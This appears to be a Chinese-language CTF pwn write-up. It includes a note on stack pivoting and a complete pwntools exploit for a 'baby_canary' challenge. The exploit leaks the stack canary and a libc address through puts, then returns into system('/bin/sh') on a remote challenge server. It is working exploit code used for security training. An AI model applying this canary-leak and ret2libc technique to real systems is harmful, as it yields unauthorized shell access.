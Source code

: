 ```py
sleep(0)
p.sendline(payload2)
p.interactive()

```
https://bbs.pediy.com/thread-258030.htm

https://blog.csdn.net/yuanyunfeng3/article/details/51456049
```
栈迁移 的核心思想就是 将栈 的 esp 和 ebp 转移到一个 输入不受长度限制的 且可控制 的 址处，通常是 bss 段地址！ 在最后 ret 的时候 如果我们能够控制得 了 栈顶 esp指向的地址 就想到于 控制了 程序执行流！
```

用pwntolls生成的shellcode执行不了，可能是因为太长？
## baby_canary
```py
from pwn import *
#context.log_level = "debug"

#p = process("./baby_canary")
p = remote('sec.arttnba3.cn',10003)

elf = ELF("./baby_canary")
libc = ELF("/home/pluto/Desktop/libc.so.6")

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
start = elf.symbols['_start']

p.recv()
payload1 = 'a'*0x41
p.send(payload1)	#dont use sendline
p.recvuntil(payload1)

canary = u32('\x00'+p.recv(3))
p.recv()
payload2 = 'b'*0x40 + p32(canary) + 'b'*8 + 'a'*4 + p32(puts_plt) + p32(start) + p32(puts_got)
p.send(payload2)
p.recvuntil("flag!\n")


puts_addr = u32(p.recv(4))

base_addr = puts_addr - libc.sym['puts']
sys_addr = base_addr + libc.sym['system']
binsh = base_addr + libc.search('/bin/sh').next()	

p.send(payload1)
payload3 = 'b'*0x40 + p32(canary) + 'b'*0xc + p32(sys_addr) + 'a'*4 + p32(binsh)
p.send(payload3)

p.interactive()
```
在覆盖'\x00'得到canary时不能用sendline
